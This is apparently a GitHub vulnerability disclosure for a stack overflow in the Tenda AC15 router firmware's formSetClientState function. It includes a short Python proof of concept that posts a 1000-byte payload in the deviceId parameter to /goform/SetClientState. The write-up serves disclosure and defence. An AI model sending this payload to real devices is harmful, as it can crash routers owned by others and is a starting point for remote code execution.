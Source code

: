 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2710.html

## Affected version

AC15 V15.03.05.18

## Vulnerability details

The Tenda AC15 V15.03.05.18 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `v9, v11, v10` variable receives the `deviceId, limitSpeed, limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceId, limitSpeed, limitSpeedUp` can trigger this security vulnerability.

![image-20240314171612600](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171612600.png)

![image-20240314221606287](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314221606287.png)

![image-20240314171552572](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314171552572.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
# data = {'limitEn':1,"limitSpeed": payload}
# data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314221640622](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314221640622.png)
